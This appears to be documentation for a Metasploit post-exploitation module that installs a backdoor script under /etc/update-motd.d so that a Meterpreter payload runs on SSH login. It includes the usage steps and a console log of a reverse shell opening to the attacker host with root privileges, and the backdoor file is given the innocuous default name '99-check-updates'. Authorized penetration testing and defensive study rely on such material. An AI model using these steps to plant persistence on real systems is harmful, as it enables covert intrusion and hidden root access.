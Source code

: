 This is a post module that performs a persistence installation on a Linux system using [motd](https://manpages.debian.org/bookworm/manpages/motd.5.en.html).
To trigger the persistence execution, an external event such as a user logging in to the system with SSH is required.

## Verification Steps

  1. Start msfconsole
  2. Obtain a session on the target machine
  3. `use exploit/linux/local/motd_persistence`
  4. `set session -1`
  5. `exploit`

## Module usage

```
msf payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > use exploit/linux/local/motd_persistence
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
msf exploit(linux/local/motd_persistence) > set session -1
session => -1
msf exploit(linux/local/motd_persistence) > exploit

[*] /etc/update-motd.d/99-check-updates written
msf exploit(linux/local/motd_persistence) > 
[*] Sending stage (3045380 bytes) to 172.18.49.39
[*] Meterpreter session 2 opened (172.18.52.45:4444 -> 172.18.49.39:41848) at 2024-09-13 03:59:47 -0400
msf exploit(linux/local/motd_persistence) > sessions -i -1
[*] Starting interaction with 2...

meterpreter > getuid
Server username: root
meterpreter > 
```

## Options

### BACKDOOR_NAME

Specify the name of the file to insert in the motd directory. (Default: 99-check-updates)
